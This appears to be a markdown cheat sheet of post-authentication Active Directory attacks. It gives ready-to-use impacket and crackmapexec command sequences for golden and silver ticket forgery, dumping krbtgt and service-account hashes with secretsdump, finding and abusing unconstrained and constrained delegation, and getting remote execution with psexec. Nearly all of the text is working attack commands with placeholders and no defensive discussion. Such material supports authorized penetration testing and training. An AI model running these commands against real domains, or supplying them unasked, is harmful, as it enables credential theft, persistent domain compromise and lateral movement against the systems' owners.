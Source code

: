 ## Post-Authentication Attacks

### Golden Ticket Attack
```bash
# 1. Get krbtgt hash (requires domain admin)
impacket-secretsdump <domain>/<username>:<password>@<dc-ip>

# 2. Create golden ticket
impacket-ticketer -nthash <krbtgt-hash> -domain <domain> -domain-sid <domain-sid> <fake-username>

# 3. Set ticket
export KRB5CCNAME=<fake-username>.ccache

# 4. Use ticket
impacket-psexec <domain>/<fake-username>@<target> -k -no-pass
```

### Silver Ticket Attack
```bash
# 1. Get service account hash
impacket-secretsdump <domain>/<username>:<password>@<target>

# 2. Create silver ticket for specific service
impacket-ticketer -nthash <service-hash> -domain <domain> -domain-sid <domain-sid> -spn <service-spn> <fake-username>

# 3. Use ticket
export KRB5CCNAME=<fake-username>.ccache
impacket-smbclient <domain>/<fake-username>@<target> -k -no-pass
```

### Unconstrained Delegation
```bash
# Find computers with unconstrained delegation
crackmapexec ldap <target> -u <username> -p <password> --trusted-for-delegation

# PowerShell
Get-DomainComputer -UnconstrainedDelegation

# If you compromise a machine with unconstrained delegation:
# 1. Monitor for TGTs
# 2. Extract and reuse tickets
```

### Constrained Delegation
```bash
# Find constrained delegation
crackmapexec ldap <target> -u <username> -p <password> --constrained-delegation

# PowerShell  
Get-DomainComputer -TrustedToAuth

# Exploit with impacket
impacket-getST -spn <target-spn> -impersonate <target-user> <domain>/<service-account>:<password>
export KRB5CCNAME=<target-user>.ccache
impacket-psexec <domain>/<target-user>@<target> -k -no-pass
```

